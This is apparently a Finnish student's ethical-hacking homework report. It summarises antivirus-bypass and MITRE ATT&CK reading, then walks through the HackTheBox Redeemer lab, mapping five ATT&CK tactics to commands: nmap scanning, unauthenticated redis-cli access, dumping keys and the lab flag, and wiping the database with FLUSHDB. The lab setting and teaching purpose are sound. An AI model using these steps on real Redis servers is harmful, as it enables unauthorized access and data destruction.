



Testaukset tehty Windows 10 käyttöjärjestelmällä, Version 10.0.19045 Build 19045. Tämän lisäksi käytetty myös Kali Linux versio 2023.3 ajettuna VirtualBox Version 7.0.12 r159484 (Qt5.15.2) kautta,  Prosessorina Intel(R) Core(TM) i7-8700K CPU @ 3.70GHz, 16GB RAM

[https://terokarvinen.com/2023/eettinen-hakkerointi-2023/#h6-attaaack](https://terokarvinen.com/2023/eettinen-hakkerointi-2023/#h6-attaaack)

---

#### x) Lue/katso/kuuntele ja tiivistä.

  * [Yehoshua and Kosayev 2021: Antivirus Bypass Techniques, Chapter 1: Introduction to the Security Landscape](https://learning.oreilly.com/library/view/antivirus-bypass-techniques/9781801079747/B17257_01_Epub_AM.xhtml)
    * Yleiskatsaus kuinka kyberrikolliset toimivat nykyisessä ympäristössä - ja kuinka antivirusohjelmistot eivät ole täydellinen suojaus hyökkäyksiä vastaan
    * Määrittelee haittaohjelmat ja niiden tyypit, käy läpi puolustusjärjestelmiä, antivirusta ja sen ohittamista
    * Turvallisuuden ymmärtämiseksi on ymmärrettävä, että weppiä käytetään nykyään tärkeisiin toimintoihin elämässä (esim. ostokset, verojen/laskujen maksaminen, älylaitteet kotona)
    * Hyökkääjillä voi olla useita eri kohteita, kuten luottokorttien/PayPalin/verkkopankin tiedot, muu käyttäjäkohtainen data - useimmiten kuitenkin **raha**
    
    * Haittaohjelmat ovat vihamielisiä ohjelmistoja jotka voivat
      * Saada täyden pääsyn kohteeseen
      * Varastaa sensitiivistä dataa kuten salasanoja
      * Kryptata tiedostoja lunnaita vastaan
      * Pilata käyttäjäkokemuksen
      * Tarkkailla käyttäjää ja myydä saadut tiedot eteenpäin
      * Näyttää mainoksia käyttäjälle
      * Hyökätä kolmannen osapuolen endpointteihin botnetillä
    
    * Eri tyyppisiä haittaohjelmia ovat
      * Virus - replikoi itsensä järjestelmään
      * Mato - Kuin virus, mutta pyrkii tartuttamaan kaikki laitteet verkossa levittäytymällä. Voi toimia osana muita haittaohjelmia
      * Rootkit - Pyrkii piiloutumaan/piilottamaan muita haittaohjelmia järjestelmän alemmille tasoille
      * Downloader - Haittaohjelma, joka lataa toisen haittaohjelman wepistä
      * Ransomware - Lunnaita pyytävä haittaohjelma
      * Botnet - Aiemmin tartutettuja koneita käytetään hyökkäykseen
      * Backdoor - Jättää hyökkääjälle pääsyn järjestelmään
      * PUP - Potentially unwanted program, esim. näyttää käyttäjälle mainoksia
      * Dropper - Haittaohjelma, joka tiputtaa osan itsestään kovalevylle
      * Scareware - Nimensä mukaisesti vetoaa käyttäjän tunteisiin, ja pyrkii saamaan käyttäjän toimimaan etujensa vastaisesti (esim. maksamaan rahaa virustorjunnasta)
      * Troijalainen - Haittaohjelma, joka tulee (usein toimivan) luotettavan ohjelmiston mukaan ujutettuna
      * Spyware - Tarkkailee ja varastaa käyttäjän tietoja
    * Haittaohjelmia voidaan yhdistellä toistensa osiksi

    * Suojausjärjestelmät
      * EDR - Endpoint Detection and Response - havaitsee ja reagoi uhkiin reaaliaikaisesti. Voidaan määrittää esim. suojaamaan tiettyjä järjestelmän osia muutoksilta (-> muutos pyritään tekemään -> EDR hälyyttää)
      * Firewall - tulimuuri/palomuuri - tarkkailee ja estää yhteyksiä ennaltamääritettyjen sääntöjen pohjalta
      * IDS/IPS - Intrusion Detection/Protection System - tarkkailee verkon paketteja ja etsii vihamielisiä datamalleja ja/tai datavirtoja
      * DLP - Data Loss Prevention - Pyrkii estämään sensitiivisen datan exfiltrointia (ja raportoi siitä)

    * Antiviruksen tehtävä on havaita ja estää vihamielisten tiedostojen ja prosessien leviäminen järjestelmässä, ja estää niiden ajaminen uhrikoneessa
    * Suurin osa antiviruksista toimii vain muutamalla moottorilla (engine)
      * Staattinen - Vertailee tiedostoja tietokannassa oleviin allekirjoituksiin ja tunnistaa haittaohjelmat sen kautta
      * Dynaaminen - Tarkkailee ohjelman eri osia, kuten rajapintoja - tai ajaa tiedoston virtuaalisessa ympäristössä joka ei ole linkitetty varsinaisen koneen muistiin
      * Heuristinen - Ei perustu tiettyihin sääntöihin, vaan epäilyttäviin toimintoihin, kuten tietojen kirjaaminen epäluotettavasta lähteestä pysyvään sijaintiin tietokoneella tai prosessi pyrkii avaamaan kuuntelukanavan Command and Control -palvelimelta saatavia komentoja varten
      * Unpacking - Haittaohjelmien pakkaaminen estää niiden tunnistettavuutta, tämä engine [purkaa paketit ja tunnistaa ne siten](https://www.joesecurity.org/blog/8506317946374998489#)

    * Antiviruksen kiertäminen
      * Bind shell on riippuvainen siitä, että hyökkääjä lähettää uhrille kaikki tiedot - haittaohjelman JA komennot
      * Reverse shell saa uhrikoneen soittamaan hyökkääjälle, jolloin komennot voidaan ajaa uhrin ulosmenevällä liikenteellä


  * [PhishSticksiin](https://github.com/therealhalonen/phishsticks/) liittyvään raportointiin en tee tiivistelmää, sillä olen mukana projektissa. Vinkkinä muille jotka lukevat: notes-kansiosta löytyy tarkempia raportointeja siitä, mitä on tehty ja miten :)

  * [MITRE Att&ck Frequently Asked Questions](https://attack.mitre.org/resources/faq/): Part 1. General. Erityisesti kehikon omat määritelmät termeille tactics, techniques and procedures
    * Tactics - Kuvailee *miksi* tekniikkaa tai alatekniikkaa käytetään. Kuvailee maalin - mihin hyökkääjä pyrkii tällä toiminnolla
    * Techniques - Kuvailee *miten* maali tavoitetaan - tekniikalla *foo* saavutetaan kohdetaktiikka *bar*
    * Procedures - Kuvailee tietynlaista täytäntöönpanoa, jota hyökkääjä käyttää. Usein hyökkääjien metodit hyökätä eri kohteisiin seuraavat samanlaista kaavaa. MITRE Att&ck sisältää tietoa useista tunnetuista APT (advanced persistent threat)-toimijoista, jotka ovat tunnistettavissa hyökkäysmenetelmiensä johdosta.

  * [MITRE Att&ck Enterprise Matrix](https://attack.mitre.org/) - Silmäile, poimi muutama esimerkki. Koko kehikko on laaja, eikä sitä tarvitse lukea tässä kokonaan.
    * Sisältää ylläkuvatut menetelmät listattuna
    * Esim. [Reconnaissance](https://attack.mitre.org/tactics/TA0043/) - TA0043-koodilla tunnettu taktiikka, joka pyrkii saamaan kohteesta tietoja. Voidaan toteuttaa esim. tekniikalla [Active Scanning](https://attack.mitre.org/techniques/T1595/), jota olemme harjoitelleet mm. nmapilla tehtävissä skannauksissa.
    * Esim. [Privilege escalation](https://attack.mitre.org/tactics/TA0004/) pyrkii korottamaan käyttäjän oikeuksia järjestelmässä, saavutetaan esim. [Access Token Manipulation: Token Impersonation/Theft ](https://attack.mitre.org/techniques/T1134/001/) esiintymällä toisen, korkeammat oikeudet omaavan käyttäjän tokenilla kirjautuneeksi

---

#### a) The OS pwns you. Asenna Windows virtuaalikoneeseen samaan verkkoon hyökkäyskoneen (esim. Kali, Debian) kanssa. Kokeile, että saat koneen irrotettua Internetistä.

Kirjoitin tätä tehtää varten [ohjeet](https://github.com/therealhalonen/PhishSticks/blob/master/notes/ollikainen/windows.md). (Ohjeidenmukaisesti tehtyä konetta ei saa edes kiinni internettiin suoraan, vaan sille pitää joko vaihtaa tai liittää käytettyä virtuaalista adapteria.) Kohtien a), b) sijaan täydennän aiemmin puutteellisia kotitehtäviäni [WebGoatin](/h4/README.md#ratkaise-webgoat-20234) parissa.

#### b) Trustme.lnk. Kokeile PhishSticksin revshell vihamielistä tiedostoa, joka avaa käänteisen shellin hyökkääjän koneelle. Selitä, mitä tapahtuu ja miksi. Testaa, että pysyt antamaan kohdekoneelle komentoja reverse shellin kautta.

Olin mukana suunnittelemassa tätä tehtävää esiintymisemme osana. Tein [harjoituksesta raportin](https://github.com/therealhalonen/PhishSticks/blob/master/notes/ollikainen/notes.md#week-47)(englanniksi, kuten [Windowsin asennusohje virtuaalikoneelle](https://github.com/therealhalonen/PhishSticks/blob/master/notes/ollikainen/windows.md))

#### d) PageRank. Laita linkki raporttiisi kurssisivun kommentiksi. - PhishSticks etsii tästä viitattavia projekteja, joten tästä voi saada useita sisääntulevia linkkejä kerralla.


Toivottavasti joku muukin kävisi kommentoimassa :( Loppuraportoinnin osalta olemme kirjaamassa lähinnä minkälaista palautetta olemme saaneet projektistamme eri toimijoilta, tarkoituksena ei ole kiinnittää erityistä huomiota raportoinnin sisältöön ja/tai laatuun. Lähinnä haluaisimme osion, johon saisimme palautteita tyyliin:

"Todella huono. En ostaisi" - Tietoturva-alan ammattilainen, yritys Y
"En ymmärrä miksi tämä toimisi missään" - Käyttäjän [X GitHub](linkki.tulee.tähän)

---

#### c) Attaaack! MITRE Attack Enterprise Matrix: Demonstroi viisi tekniikkaa viidestä eri taktiikasta.

(Kommenttina, läksyissä on varmaankin tarkoitettu *yhtä* tekniikkaa viidestä eri taktiikasta. Perusteluna tälle vapaaehtoisten tehtävien maininta "Noista aiemmin tehdystä **viidestä** ei tarvitse tehdä uutta demonstraatiota.")

Kohteena demonstrointiin käytän [HackTheBoxin](https://hackthebox.com/) Tier 0 -tason harjoituskohdetta [Redeemer](https://app.hackthebox.com/starting-point). HackTheBoxin harjoituskohteet vaativat VPN-yhteyden käyttämistä, Kalissa openvpn on valmiiksi asennettuna. Olen aiemmin ladannut tarvittavan .ovpn-tiedoston, openvpn ajaminen tapahtuu komennoilla:

```

┌──(susi㉿isopaha)-[~]
└─$ cd Downloads     // siirry hakemistoon, jossa tiedostosi .ovpn on

┌──(susi㉿isopaha)-[~/Downloads]
└─$ sudo openvpn starting_point_sawulohi.ovpn


```

`openvpn` tulostaa tässä vaiheessa pitkän listan tekstiä, ja sivustolla tulisi näkyä painettavissa oleva nappi `Spawn machine`, sekä oikeassa yläkulmassa tulisi näkyä vihreällä taustalla oleva teksti `Starting point`



Painetaan `Spawn machine`. Tässä kestää hieman aikaa, kun HackTheBox luo hyökkäyskohteen. Sitten sivusto kertoo ip-osoitteen, jossa kohde sijaitsee.



Testataan vaikka pingaamalla osoitetta:

```

┌──(susi㉿isopaha)-[~]
└─$ ping 10.129.217.129
PING 10.129.217.129 (10.129.217.129) 56(84) bytes of data.
64 bytes from 10.129.217.129: icmp_seq=1 ttl=63 time=49.0 ms
64 bytes from 10.129.217.129: icmp_seq=2 ttl=63 time=49.3 ms
64 bytes from 10.129.217.129: icmp_seq=3 ttl=63 time=53.1 ms
64 bytes from 10.129.217.129: icmp_seq=4 ttl=63 time=53.5 ms
^C
--- 10.129.217.129 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3003ms
rtt min/avg/max/mdev = 48.992/51.224/53.496/2.082 ms


```

Yhteys toimii, siirrytään seuraavaan demonstraatioon:

##### 1. Taktiikka: [Reconnaissance TA0043](https://attack.mitre.org/tactics/TA0043/) - Tekniikka: [Active Scanning T1595](https://attack.mitre.org/techniques/T1595/)

```

┌──(susi㉿isopaha)-[~]
└─$ sudo nmap -p- -sV 10.129.217.129  
[sudo] password for susi: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-02 19:37 EET

```

Nmap ajetaan sudo-oikeuksilla, skannataan portit 0-65535 lipulla -p-, `man nmap` kertoo -sV-lipusta, että se on palvelu- ja versiotiedot hakeva porttiskannaus -sV: Probe open ports to determine service/version info

```

┌──(susi㉿isopaha)-[~]
└─$ sudo nmap -p- -sV 10.129.217.129
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-02 19:43 EET
Nmap scan report for 10.129.217.129
Host is up (0.050s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.72 seconds

```

Portti 6379 on avoinna `redis`-palvelua varten. Tämä harjoitusmaali on tarkoitus mennä annetun läpikävelyohjeen mukaisesti, ja läpikävelyohjeessa kerrotaan Redis:istä seuraavaa:



Kyseessä on siis palvelu, joka käyttää NoSQL-tietokantoja avain-arvoparien säilyttämiseen. Ja sitä voidaan ohjata sen omalla komentorivityökalulla.

Kohde Reconnaisance on nyt saavutettu taktiikalla Active Scanning, eli selkokielellä keräsin tietoa kohteesta aktiivisella skannauksella.

##### 2. Taktiikka: [Initial Access TA0001](https://attack.mitre.org/tactics/TA0001/) - Tekniikka: [Exploit Public-Facing Application T1190](https://attack.mitre.org/techniques/T1190/)

Initial access viittaa siihen, että hyökkääjä pyrkii pääsemään uhrin verkkoon. Exploit Public-Facing Application tarkoittaa sitä, että hyökkäysvektoriksi otetaan palvelu, joka on yhteydessä verkkoon (tässä maalissa em. `redis`-palvelu)

Rediksen ohjailua varten tarvitaan CLI - command line interface - jolla sille syötetään komentoja. Asensin sen `sudo apt-get install redis-tools`. `redis-cli --help` kertoi, että lippu `-h` on annettava hostnameksi, eli kohteen ip-osoite laitetaan tähän. Kokeilin yhdistää ilman salasanatietoja:

```

┌──(susi㉿isopaha)-[~]
└─$ redis-cli -h 10.129.217.129
10.129.217.129:6379>
```

Initial access saavutettu kohteeseen (infolla tietojen kerääminen ei varsinaisesti kuulu initial accessiin, mutta se oli keino varmentaa, että olin järjestelmässä).


##### 3. Taktiikka: [Discovery TA0007](https://attack.mitre.org/tactics/TA0007/) - Tekniikka: [File and Directory Discovery T1083](https://attack.mitre.org/techniques/T1083/)

Syöttämällä komentorivityökäyttöliittymään komennon `info` saadaan tietoa järjestelmästä.

```

10.129.217.129:6379>info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:9.3.0
process_id:753
run_id:a0523a1dd459436a444c25a1d13e603025b2b5dd
tcp_port:6379
uptime_in_seconds:1966
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:7041594
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

[LEIKKASIN TÄSTÄ YLIMÄÄRÄISIÄ RIVEJÄ]

# Keyspace
db0:keys=4,expires=0,avg_ttl=0


```

Sen lisäksi viimeisillä riveillä oleva `Keyspace` kertoo, että palvelussa on yksi tietokanta, jossa on neljä avainta.

Discovery on saavutettu näin yksinkertaisesti.

##### 4. Taktiikka: [Collection TA0009](https://attack.mitre.org/tactics/TA0009/) - Tekniikka: [Data from Local System T1005](https://attack.mitre.org/techniques/T1005/)

Collectionin tarkoitus on kerätä loppumaalia varten tarvittavaa mielenkiintoista dataa. Data from Local System viittaa siihen, että tieto kerätään järjestelmän tiedostoista, kuten konfiguraatiotiedostoista tai **tietokannoista**. Läpikävelyohje antoi komennot `select <tietokannan numero>` tietokannan valintaan, `keys *` avainten listaamiseen ja `get <avaimen nimi>` avaimen sisällön listaamiseen.

```

10.129.217.129:6379> select 0
OK

10.129.217.129:6379> keys *
1) "temp"
2) "stor"
3) "numb"
4) "flag"

10.129.217.129:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
10.129.217.129:6379> 

```

Collection on nyt saavutettu lukemalla järjestelmän tietokantaa. Tein myös taktiikan [Exfiltration TA0010](https://attack.mitre.org/tactics/TA0010/), mutta koska sen toteuttaminen ATT&CK:issa kuvatuilla tekniikoilla on turhan vaikeaa (copy-pastesin avaimen suoraan HackTheBoxin palautuskenttään ja harjoitusmaali oli läpäisty).


##### 5. Taktiikka: [Impact TA0040](https://attack.mitre.org/tactics/TA0040/) - Tekniikka: [Data Destruction T1485](https://attack.mitre.org/techniques/T1485/)

Taktiikan ja tekniikan nimet kertovat niiden merkityksen osuvasti.

Valitsin tänään väkivallan, ja poistin tietokannan tiedot saatuani sieltä haluamani tiedon:

```

10.129.217.129:6379> FLUSHDB
OK
10.129.217.129:6379> select 0
OK
10.129.217.129:6379> keys *
(empty array)
10.129.217.129:6379> 

```

Impact oli nyt saatu aikaiseksi tuhoamalla tietokannan tiedot :)